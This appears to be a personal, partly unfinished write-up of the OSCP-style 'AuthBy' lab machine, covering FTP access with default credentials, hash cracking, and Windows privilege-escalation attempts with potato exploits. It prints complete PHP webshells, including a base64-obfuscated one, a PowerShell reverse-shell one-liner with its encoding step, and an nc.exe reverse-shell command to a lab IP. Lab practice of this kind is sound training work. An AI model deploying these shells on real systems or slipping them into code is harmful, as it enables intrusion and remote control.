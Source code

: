 # AuthBy Writeup

Name: AuthBy
Date:  
Difficulty:  Intermediate
Goals:  
- TJNull List OSCP-like machine - return to form
Learnt:
- 
Beyond Root:
- PHP webshell

- [[AuthBy-Notes.md]]
- [[AuthBy-CMD-by-CMDs.md]]

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

![](hydraftp.png)

```
wget -r ftp://admin:admin@192.168.174.46/
```

![](htpasswd.png)

![](apache1hash.png)

![](hashcatcracked.png)

![](offseceliteforwebpage.png)

![](webadeshell.png)

https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html

![](nowebshellsadness.png)

![](mademyownwebshellfromothers.png)

```php
<html>
<head>
<title>Perspective honing persistence</title>
// Made from simple_cmd.php, simple-backdoor.php
<body>
<form method=POST>
<input type=TEXT name="cmd" size=64 value="<?=$cmd?>"
<input type=TEXT name="systemRequest" size=64 value="<?=$systemRequest?>"
<hr>
</form>
<?php $cmd = $_REQUEST["cmd"];?>
<?php if ($cmd != "") { print Shell_Exec($cmd); } else { echo "cmd=";}?>
<?php
if(isset($_REQUEST['systemRequest'])){
        echo "<pre>";
        $systemRequest = ($_REQUEST['systemRequest']);
        system($systemRequest);
        echo "</pre>";
        die;
}
?>
</body>
</html>
```

[Online php-obfuscator](https://www.gaijin.at/en/tools/php-obfuscator) from [[Wreath-Writeup]] may also help
```php
<html>
<head>
<title>Perspective honing persistence</title>
// Made from simple_cmd.php, simple-backdoor.php
<body>
<form method=POST>
<input type=TEXT name="cmd" size=64 value="<?=$edfff0a7fa1a5?>"
<input type=TEXT name="systemRequest" size=64 value="<?=$k06ca1b7b4ed8?>"
<hr>
</form>
<?php $edfff0a7fa1a5=$_REQUEST[base64_decode('Y21k')];?>
<?php if($edfff0a7fa1a5!=''){printShell_Exec($edfff0a7fa1a5);}else{echo base64_decode('Y21kPQ==');}?>
<?php if(isset($_REQUEST[base64_decode('c3lzdGVtUmVxdWVzdA==')])){echo base64_decode('PHByZT4=');$k06ca1b7b4ed8=($_REQUEST[base64_decode('c3lzdGVtUmVxdWVzdA==')]);system($k06ca1b7b4ed8);echo base64_decode('PC9wcmU+');die;}?>
</body>
</html>
```

![](addederrorreportingzero.png)

```php
<html>
<head>
<title>Perspective honing persistence</title>
// Made from simple_cmd.php, simple-backdoor.php
<body>
<form method=POST>
<input type=TEXT name="cmd" size=64 value="<?=$cmd?>"
<input type=TEXT name="systemRequest" size=64 value="<?=$systemRequest?>"
<hr>
</form>
<?php error_reporting(0);?>
<?php $cmd = $_REQUEST["cmd"];?>
<?php if ($cmd != "") { print Shell_Exec($cmd); } else { echo "cmd=";}?>
<?php
if(isset($_REQUEST['systemRequest'])){
        echo "<pre>";
        $systemRequest = ($_REQUEST['systemRequest']);
        system($systemRequest);
        echo "</pre>";
        die;
}
?>
</body>
</html>

```


Alh4zr3d's obfuscate reverse shell is just this with the variables changed, save this to a .txt file alter variables where required
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

He then base64, little endians it: convert it to UTF-16LE, which the Windows Default encoding, encodes it to base64 then removes the newline .
```bash
iconv -f ASCII -t UTF-16LE $reverseshell.txt | base64 | tr -d "\n"
```

Using Powershell did not work. Uploaded nc.exe felt very dirty doing so.
![](ncupload.png)


![](livda.png)

Uploaded JuicyPotato exploit - [decoder exploit blog](https://decoder.cloud/2022/09/21/giving-juicypotato-a-second-chance-juicypotatong/) via FTP as presumably for FTP is being used by an administrator to interact with this box so no need for smelling the juiciest of potatoes, which smell very, very bad. 
![](juicypotato.png)

Forgot that my arsenal was not categorised correctly and uploaded the x64 version, because I am stupid. So used not being able to run `systeminfo` 

![](systeminfo.png)

I will use the BITS CLSID to remind myself of the exploit more than anything:
```
{69AD4AEE-51BE-439b-A92C-86AE490E8B30}
```

Then...reread what is vulnerable and what is not vulnerable and why from various source such as [jlajara](https://jlajara.gitlab.io/Potatoes_Windows_Privesc#genericPotato).

Double checking for the wpad entry
![](nowpadentry.png)

As per ACTUALLY READING THE INSTRUCTIONS
![](window2008server.png)

This failed for some reason that lead me to try both versions of PrintSpoofer.exe
```
.\potato.exe -ip 127.0.0.1 -cmd "c:\wamp\www\nc.exe 192.168.45.225 6969 -e c:\windows\system32\cmd.exe" -disable_exhaust true -disable_defender true --spoof_host WPAD.EMC.LOCAL
```

Built my own versions of both x86 and x64 SweetPotato considering [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) for both [SweetPotato](https://github.com/CCob/SweetPotato) and [PrintSpoofer](https://github.com/itm4n/PrintSpoofer). x64 and x86 version return the same error
![](neitherx8664-sameerror.png)

But it is not actually running...
![](itran.png)

Ran wes.py and there are lots of Privilege Escalations to fall back on if required. I am just concern that seImpersonate Privilege is just glaring in the face. Due to the only documentation on any of the github repositories directly mentioning Windows Server 2008. I decided to retry the original. 

Try https://github.com/antonioCoco/RogueWinRM
## Exploit



## Foothold

## PrivEsc

![](AuthBy-map.excalidraw.md)

## Beyond Root

PHP webshell for Pentesting - does all the techniques and tricks to empirical test which works and which does not to make reporting and remembering a language I can barely say I can use easier.

